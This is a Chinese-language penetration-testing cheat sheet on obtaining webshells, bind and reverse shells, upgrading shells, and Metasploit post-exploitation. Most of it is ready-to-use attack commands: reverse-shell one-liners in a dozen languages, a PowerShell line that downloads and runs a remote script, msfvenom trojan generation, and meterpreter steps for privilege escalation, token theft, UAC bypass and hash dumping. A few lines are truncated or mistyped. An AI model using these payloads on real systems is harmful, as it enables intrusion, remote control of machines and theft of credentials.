

shell
========================================

webshell获取常规方法
----------------------------------------

通过CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过CMS获取Webshell的思路通常分为两类： 一类是针对特定版本的具体漏洞进行利用，完成如远程执行命令、数据库注入等操作；另一类则是通过弱口令或者漏洞利用进后台管理界面，然后通过上传插件、修改模板文件等方式上传木马脚本。

通过非CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用文件上传
- 利用SQL注入

其他获取Webshell方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Phpmyadmin
- Tomcat
- Weblogic
- JBoss

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 

反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
	php -r '$sock=fsockopen("172.16.100.105",4444);$descriptorspec = array(0 => $sock,1 => $sock,2 => $sock);$process = proc_open('/bin/sh', $descriptorspec, $pipes);proc_close($process);'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	server(vps)：nc -lvp 1567
	client：nc 172.31.100.7 1567 -e /bin/bash
	client：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	client：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

shell升级为交互式shell
-----------------------------------------

- 半交互式shell

::

	通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
	python -c "import pty;pty.spawn('/bin/bash')"
	可以运行su命令。

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color

shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 

meterpreter提权
-----------------------------------------
- 前提
	+ 生成木马
		``msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.11.2 lport=4444 -f exe -o /tmp/hack.exe``
		
		::
		
			默认为32位,如果靶机为64位需要更改为:wiondows/x64/meterpreter/reverse_tcp
			反弹到的监听端地址为172.16.11.2，监听端口为4444，文件输出格式为exe并保存到路径/tmp/hack.exe
	+ 执行监听
		::
		
			use exploit/multi/handler
			set payload windows/meterpreter/reverse_tcp
			set LHOST 172.16.11.2
			show options
			exploit
	+ 上传并执行木马
		此处假设我们通过一系列的渗透测试得到了目标机器的webshell，并上传生成的木马hack.exe，执行成功。
			
- getsystem提权
- exp提权
	::
	
		meterpreter > background //先后台运行会话[*] Backgrounding session 1…
		msf > use post/windows/escalate/ms10_073_kbdlayout
		msf > show options
		msf > set session 1 //设置要使用的会话
		msf post(ms10_073_kbdlayout) > exploit
		
		或直接用一下命令：
		meterpreter > run post/windows/escalate/ms10_073_kbdlayout
- 盗取令牌
	::
	
		meterpreter > use incognito //进入这个模块
		meterpreter > list_tokens –u //查看存在的令牌
		meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠
		注意：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有
		这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权
		限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。
- Bypassuac
	::
	
		msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
		msf > show options
		msf > set session 4
		msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权
- Hash
	``meterpreter > run post/windows/gather/smart_hashdump`` 

